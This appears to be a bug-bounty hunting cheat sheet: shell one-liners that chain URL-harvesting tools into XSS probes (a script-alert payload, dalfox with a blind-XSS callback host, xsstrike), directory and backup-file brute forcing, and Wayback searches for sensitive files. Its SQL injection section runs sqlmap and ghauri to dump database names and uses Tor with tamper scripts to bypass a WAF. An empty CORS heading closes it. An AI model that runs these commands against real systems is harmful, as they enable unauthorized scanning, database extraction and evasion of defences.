 ```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
```
cat urls.txt | grep "=" | sed 's/=.*/=/' | sed 's/URL: //' | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht
```
```
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
```
---------------------
## Hidden Dirs:
```
dirsearch -l ips_alive --full-url --recursive --exclude-sizes=0B --random-agent -e 7z,archive,ashx,asp,aspx,back,backup,backup-sql,backup.db,backup.sql,bak,bak.zip,bakup,bin,bkp,bson,bz2,core,csv,data,dataset,db,db-backup,db-dump,db.7z,db.bz2,db.gz,db.tar,db.tar.gz,db.zip,dbs.bz2,dll,dmp,dump,dump.7z,dump.db,dump.z,dump.zip,exported,gdb,gdb.dump,gz,gzip,ib,ibd,iso,jar,java,json,jsp,jspf,jspx,ldf,log,lz,lz4,lzh,mongo,neo4j,old,pg.dump,phtm,phtml,psql,rar,rb,rdb,rdb.bz2,rdb.gz,rdb.tar,rdb.tar.gz,rdb.zip,redis,save,sde,sdf,snap,sql,sql.7z,sql.bak,sql.bz2,sql.db,sql.dump,sql.gz,sql.lz,sql.rar,sql.tar.gz,sql.tar.z,sql.xz,sql.z,sql.zip,sqlite,sqlite.bz2,sqlite.gz,sqlite.tar,sqlite.tar.gz,sqlite.zip,sqlite3,sqlitedb,swp,tar,tar.bz2,tar.gz,tar.z,temp,tml,vbk,vhd,war,xhtml,xml,xz,z,zip,conf,config,bak,backup,swp,old,db,sql,asp,aspx~,asp~,py,py~,rb~,php,php~,bkp,cache,cgi,inc,js,json,jsp~,lock,wadl -o output.txt
```
```
ffuf -c -w urls.txt:URL -w wordlist.txt:FUZZ -u URL/FUZZ -mc all -fc 500,502 -ac -recursion -v -of json -o output.json
```
## ffuf json to txt output
```
cat output.json | jq | grep -o '"url": "http[^"]*"' | grep -o 'http[^"]*' | anew out.txt

```
**Search for Sensitive files from Wayback**
```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -color -E ".xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"
```
-------------------
## SQLi:
```
cat subs.txt | (gau || hakrawler || katana || waybckurls) | grep "=" | dedupe | anew tmp-sqli.txt && sqlmap -m tmp-sqli.txt --batch --random-agent --level 5 --risk 3 --dbs &&
for i in $(cat tmp-sqli.txt); do ghauri -u "$i" --level 3 --dbs --current-db --batch --confirm; done
```
***Bypass WAF using TOR***
```
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor --dbs --random-agent --tamper=space2comment
```
***find which host is vuln in output folder of sqlmap/ghauri***
``root@bb:~/.local/share/sqlmap/output#``
```
find -type f -name "log" -exec sh -c 'grep -q "Parameter" "{}" && echo "{}: SQLi"' \;
```
----------------
## CORS:
```
```